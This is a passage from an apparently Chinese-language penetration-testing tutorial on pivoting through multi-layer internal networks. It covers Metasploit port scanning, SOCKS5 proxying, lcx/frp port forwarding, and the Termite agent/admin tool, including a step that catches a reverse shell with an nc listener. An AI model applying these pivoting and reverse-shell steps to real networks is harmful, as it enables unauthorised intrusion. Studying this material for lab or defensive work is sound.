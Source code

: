   
，然后
```
run
```

  
运行  
  
- 对之前arp扫描的主机
```
use auxiliary/scanner/portscan/tcp
```

  
扫描端口，设置rhost参数，准备再往里打  
  
- 配置浏览器代理，选socks5，端口和socks5脚本show options的端口一致  
  
- 访问三层内网机的80端口，准备三层内网渗透(打80端口)  
  
二层渗透就搞定了。如果三层内网要出网经过二层内网。用bind的话还好，用reverse就需要用两次代理转发  
  
简单提一下**三层内网**  
，可以上传lcx再进行一次端口转发，把二层内网机的frp端口转发到边界机，或者走frp代理。这样都是frp端口就串起来了，再把三层内网机reverse到二层的端口等于二层转发的端口，相当于直接reverse出去  
  
所以！多层代理就是把多层主机端口串起来！  
  
什么？拿完shell，几台机子的shell来回切你嫌麻烦？可以直接用Termite工具  
# Termite  
  
Termite用于管理多层跳板，有admin和agent两个文件。  
- 在第一个节点上传agent的对应版本，运行
```
./agent_版本 -l 端口
```

  
  
- 在攻击机运行
```
admin的对应版本 -c 边界机ip -p 端口
```

  
，连接没问题就跳ok  
  
- admin的shell里
```
goto 1
```

  
进入第一个节点，
```
shell 端口
```

  
。然后起个终端开nc或者其他监听，监听该端口，弹回了第一个shell  
  
- 二层机器
```
agent对应版本 -c 上一层ip -p 上一层端口
```
